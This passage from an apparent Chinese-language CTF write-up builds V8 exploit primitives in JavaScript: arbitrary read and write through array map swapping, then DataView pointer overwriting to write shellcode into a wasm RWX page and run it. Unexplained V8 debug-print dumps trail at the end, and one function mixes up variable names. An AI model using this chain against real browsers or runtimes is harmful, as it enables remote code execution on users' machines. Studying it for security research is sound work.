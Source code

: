 在本题中笔者的方法相对朴素，通过直接修改 `element` 字段来实现 4G 空间内的地址读写：

```js
function readaddr(addr){
    let temp=doubleArr[3];
    double_array[2]=u2d(0x0018f089,0x0006cd);//double array map
    double_array[3]=u2d(addr-8,0xdeec);
    let res=vul[0];
    double_array[2]=u2d(0x0018f109,0x0006cd);//obj array map
    double_array[3]=temp;
    return ftoi(res);
}
```

## 构造任意地址写

```js
function writeaddr(addr,data){
    let temp=double_array[3];
    double_array[2]=u2d(0x0018f089,0x0006cd);
    double_array[3]=u2d(addr-8,0xdeec);
    vul[0]=data;
    double_array[2]=u2d(0x0018f109,0x0006cd);
    double_array[3]=temp;
}
```

## 地址笼逃逸/shellcode 写入

我们知道，在 V8 下一直使用地址压缩的技术，这使得我们无法在其他内存段下进行数据读写。在本题所提供的版本下，可以使用 `DataView` 来解决该问题，关于详细的利用方法，笔者已经在 [该文](https://github.com/ErodedElk/Chaos-me-JavaScript-V8/blob/master/Chapter2-%E9%80%9A%E7%94%A8%E5%88%A9%E7%94%A8%E9%93%BE.md) 有过描述，本文就不再赘述了。

大致的原理是 `DataView` 在进行数据读写时使用 8 字节指针指向缓冲区，通过修改该指针的值来完成全内存读写。

```js
let wasmInstance_demo=addressOf(wasmInstance)+0x48
let rwx_addr=(readaddr(wasmInstance_demo));

var data_buf = new ArrayBuffer(0x400);
var data_view = new DataView(data_buf);
var bk_buf=addressOf(data_buf)+0x20;
writeaddr(bk_buf,itof(rwx_addr));

for (let i=0;i<shellcode.length;++i)
  data_view.setFloat64(i*8,itof(shellcode[i]),true); 

f();
```

另外，在该版本下使用 `wasm` 会生成 `rwx` 段，因此使用 [该文](https://github.com/ErodedElk/Chaos-me-JavaScript-V8/blob/master/Chapter2-%E9%80%9A%E7%94%A8%E5%88%A9%E7%94%A8%E9%93%BE.md) 的方法已经能够完成所有利用了。

最后调用一下对应函数触发 shellcode 即可弹出计算器。


  [0]: 0x93700002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 4, attrs: [WEC]) @ Any
  [1]: 0x93700002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 3, attrs: [WEC]) @ Any
  [2]: 0x93700002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 2, attrs: [WEC]) @ Any
  [3]: 0x93700002a51: [String] in ReadOnlySpace: #d (const data field 3:s, p: 1, attrs: [WEC]) @ Any
  [4]: 0x93700002a61: [String] in ReadOnlySpace: #e (const data field 4:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0xf6100002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (data field 2:d, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any